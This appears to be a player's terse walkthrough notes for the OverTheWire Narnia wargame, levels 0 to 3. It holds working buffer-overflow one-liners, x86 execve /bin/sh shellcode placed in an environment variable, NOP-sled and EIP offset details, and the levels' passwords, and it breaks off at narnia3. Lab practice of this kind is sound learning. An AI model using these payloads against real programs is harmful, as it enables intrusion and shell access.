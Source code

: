 >passwords for next level is at /etc/narnia_pass
>problems and source code in /narnia 	:cd /narnia
>ssh narnia0@narnia.labs.overthewire.org -p 2226

narnia0:

	pass=narnia0
	Just a simple overflow and overwrite val with 0xdeadbeef
	(python -c 'print "A"*20+"\xef\xbe\xad\xde"';cat)|./narnia0

	gives shell and password for next level is efeidiedae

narnia1:
	
	pass=efeidiedae
	just a simple setting up environment variable EGG and it gets executed0 no
	export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"')
	cat /etc/narnia_pass/narnia2 gives the password for this level 

narnia2:

	pass=nairiepecu
	just a buffer overflow with aslr and nx disabled. so did shellcode injection and executed it.
	using gdb found that offset to eip is 140, then the stack address for buffer is 0xffffd610. Then filled with nop sled of length 60
	and then shellcode and "A" and overwrote eip with 0xffffd630 which is 0xffffd610 + 32 roughly the middle of nop sled.
	cat /etc/narnia_pass/narnia3 gives password for this level

narnia3:
	
	pass=vaequeezee
	eip offset seems to be 64+4=68
	pop3ret = 0x80486dd
	
	
